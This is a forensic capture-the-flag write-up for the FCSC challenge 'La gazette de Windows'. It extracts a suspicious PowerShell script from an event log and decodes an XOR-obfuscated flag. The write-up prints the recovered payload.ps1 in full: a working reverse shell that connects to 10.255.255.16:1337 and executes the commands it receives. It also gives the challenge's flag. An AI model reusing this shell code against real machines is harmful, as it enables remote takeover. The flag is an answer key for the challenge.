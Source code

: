 # Intro / La gazette de Windows

## Challenge
Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.

## Inputs
- Microsoft Powershell log:  [Microsoft-Windows-PowerShell4Operational.evtx](./Microsoft-Windows-PowerShell4Operational.evtx)


## Solution
Let's use this tool https://github.com/williballenthin/python-evtx to extract the data from the log:
```console
$ python3 evtx_dump.py Microsoft-Windows-PowerShell4Operational.evtx > log.xml
```

Looking for PowerSheel scripts in this, we get some hints:
```console
$ grep -i ps1 log.xml
<Data Name="ScriptBlockText">if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; &amp; 'C:\Users\jmichel\Downloads\payload.ps1'</Data>
<Data Name="Path">C:\Users\jmichel\Downloads\payload.ps1</Data>
<Data Name="Path">C:\Users\jmichel\Downloads\payload.ps1</Data>
<Data Name="Path">C:\Users\jmichel\Downloads\payload.ps1</Data>
```

Here is the contents of `payload.ps1`:
```
<EventData><Data Name="MessageNumber">1</Data>
<Data Name="MessageTotal">1</Data>
<Data Name="ScriptBlockText">do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL&gt; ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2&gt;&amp;1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()</Data>
<Data Name="ScriptBlockId">634cf5ca-b06b-4b5a-8354-c5ccd9d3c82a</Data>
<Data Name="Path">C:\Users\jmichel\Downloads\payload.ps1</Data>
</EventData>
```

Let's save the piece that builds the payload in `sol.ps1` and add a PowerShell `Write-Output` command to dump the payload:
```powershell
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
Write-Output $s
```

Now execute that PowerShell script with `pwsh`:
```console
$ pwsh sol.ps1
FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}
```

## Python code
Complete solution in [sol.ps1](./sol.ps1)

## Flag
FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}

